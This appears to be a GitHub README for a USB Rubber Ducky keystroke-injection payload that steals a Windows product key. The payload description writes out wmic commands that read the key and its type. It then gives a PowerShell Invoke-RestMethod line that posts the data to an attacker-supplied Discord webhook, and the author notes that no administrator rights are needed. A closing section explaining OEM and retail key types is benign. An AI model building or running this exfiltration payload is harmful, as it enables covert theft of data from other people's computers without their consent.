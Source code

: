 # Exfiltrate Windows Product Key

Through this payload, you can export the key information related to the Windows Product Key, knowing its type and the key itself, using a Discord Webhook.

No administrator permissions are required to do this, isn't that absurd, right? :-)

![](https://i.ibb.co/m4QpT5v/1.png)

**Category**: Exfiltration

## Index

- [Introduction](#exfiltrate-windows-product-key)
- [Note](#note)
- [Dependencies](#dependencies)
- [Settings](#settings)
- [Payload Description](#payload-description)
- [Product Key Types](#product-key-types)
- [Sources](#sources)

## Note

Tested on:
- Windows 11

## Dependencies

- Discord Webhook

## Settings

- `QUACK REM VARIABLES:`: Introduces a section for variables in the code.
- `QUACK REM Put here your Discord Webhook`: Indicates where the user should put their Discord webhook URL.

This code snippet is useful for setting up a Discord webhook integration by defining the necessary variable to hold the webhook URL.

```plaintext
QUACK REM VARIABLES:
QUACK REM Put here your Discord Webhook
DISCORD-WEBHOOK="https://discord.com/api/webhooks/0123456789.../abcefg..."
```


## Payload Description

Through this payload, you can export essential information related to the Windows Product Key using a Discord Webhook, ensuring that you identify its type and the key itself.

The following commands are executed to obtain the necessary information about the Product Key:

1. This command retrieves the currently in-use Product Key:

   ```powershell
   wmic path softwarelicensingservice get OA3xOriginalProductKey
   ```

2. This command helps determine the type of key. You can refer to the [key types section](#key-types) for more details:

   ```powershell
   wmic path softwarelicensingservice get OA3xOriginalProductKeyDescription
   ```

The acquired information is stored in the `$exfiltration` variable, which is subsequently used to create the `$payload` object. This object is then utilized for exfiltration via a Discord Webhook.

**Exfiltration**:

```powershell
Invoke-RestMethod -Uri $hookUrl -Method Post -Body ($payload | ConvertTo-Json) -ContentType 'Application/Json'; exit
```

The `$hookUrl` variable was initialized at the beginning of the payload with the value you need to define before execution.

## Product Key Types

When dealing with Windows Product Keys, it's essential to understand the different types and their characteristics:

- **OEM Keys** (*Original Equipment Manufacturer*):

      **Transferability**: Not supposed to be transferable. These keys are typically tied to the prebuilt PC on which they were originally installed.
      **Usage**: Manufacturers use OEM keys to install Windows on new computers.
      **Procurement**: OEM keys can sometimes be found at discount key vendors, although their use on different hardware may be challenging.

- **Retail Keys** (*aka "Full Packaged Product" Keys*):
      
      **Transferability**: Transferrable. These keys can be moved from one computer to another.
      **Cost**: Retail keys are often more expensive, often exceeding $100.
      **Hidden Keys**: In some cases, a computer may already have a retail key, perhaps from a previous Windows upgrade. Users might not be aware of this until they check.

Understanding these key types is crucial when working with Windows Product Keys, as it can impact their use, transferability, and compatibility with different hardware and scenarios.

*Note: Source of this info [[2](#sources)]*

## Sources

- [1] Detect Ready: https://shop.hak5.org/blogs/usb-rubber-ducky/detect-ready
- [2] Is your Windows Product Key transferrable? https://www.tomshardware.com/how-to/transfer-windows-license-to-new-pc#is-your-windows-product-key-transferrable-3